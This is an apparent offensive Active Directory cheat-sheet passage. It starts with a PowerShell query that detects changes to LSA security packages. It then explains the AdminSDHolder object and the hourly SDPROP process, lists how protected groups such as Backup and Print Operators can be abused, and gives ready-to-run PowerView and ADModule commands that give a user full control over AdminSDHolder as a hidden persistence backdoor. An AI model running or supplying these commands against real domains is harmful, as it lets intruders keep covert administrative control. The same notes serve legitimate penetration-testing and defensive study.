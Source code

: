 * Event ID **4657**: Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

```powershell
Get-WinEvent -FilterHashtable @{Logname='System';ID=4657} | ?{$_.message -like "*Kernel Mode Driver*"}
```

# AdminSDHolder

Resides in the system container of a domain and used to control the permissions using an ACL for certain built-in privileged groups which are called the `protected groups`.

Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

List of protected groups and how can be abused some of them can log on locally to the domain controller:

* **Account Operators**: Can modify nesteg groups.
* **Bakup Operators**: Backup GPO, edit ato add SID of controller account to a privileged gorup and restore.
* **Server Operators**: Run a command as system
* **Print Operators**: Copy ntds.dit backup, load device drivers.
* **Domain Admins**: Can log on.
* **Replicator**: Can log on.
* **Enterprise Admins**: Can log on.
* **Domain Controllers**: Can log on.
* **Read-only Domain Controllers**: Can log on.
* **Schema Admins**: Can log on.
* **Administrators**: Can log on.

With Domain Admin privileges which means that we have full control and write permissions on the `AdminSDHolder` object, this full control can be abused to create a backdoor or persistence mechanism by adding a user with **Full Permissions** to the AdminSDHolder object.

In 60 minutes when the SDPROP is runned, the user will be added with Full Control access to the ACL of gropus like Domain Admins without actually being a member of it.

Fist we need to add full controll permissions fo a user to the AdminSDHolder:

* PowerView:
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose
```

* PowerView (dev):
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' -PrincipalIdentity user1 -Rights All
```

* ADModule:
```powershell
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' -Principal user1 -Verbose 
```
